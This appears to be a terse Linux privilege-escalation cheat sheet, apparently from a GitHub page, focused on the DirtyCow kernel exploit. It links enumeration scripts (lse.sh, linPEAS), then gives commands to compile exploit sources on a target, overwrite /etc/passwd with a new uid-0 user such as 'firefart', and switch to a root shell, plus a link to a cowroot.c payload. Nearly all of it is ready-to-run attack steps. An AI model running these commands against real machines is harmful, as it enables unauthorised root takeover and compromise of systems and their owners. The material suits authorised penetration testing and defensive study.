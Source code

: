 # automate search for vulnerabilities
https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh  
https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh  

# DirtyCow
```
# vulnerable kernel versions: 2.6.22 - 4.8.3, 4.7.9, 4.4.26
uname -a
```

## compile on target (40611.c)
```
gcc -pthread 40611.c -o dirtyc0w
```

### add new user and password to /etc/passwd
```
./dirtyc0w /etc/passwd "<user>:$(openssl passwd -1 -salt <user> <password>):0:0:root:/bin/bash" &
```

### change to root shell
```
su <user>
```

## compile on target - 40839.c
```
gcc -pthread 40839.c -o dirty -lcrypt
```

### append new user to /etc/passwd
```
./dirty <password> /etc/passwd
```

### change to root shell
```
su firefart
```

## (un)comment correct payload first (x86 or x64) - compile on target 
```
https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c
gcc cowroot.c -o cowroot -pthread
```
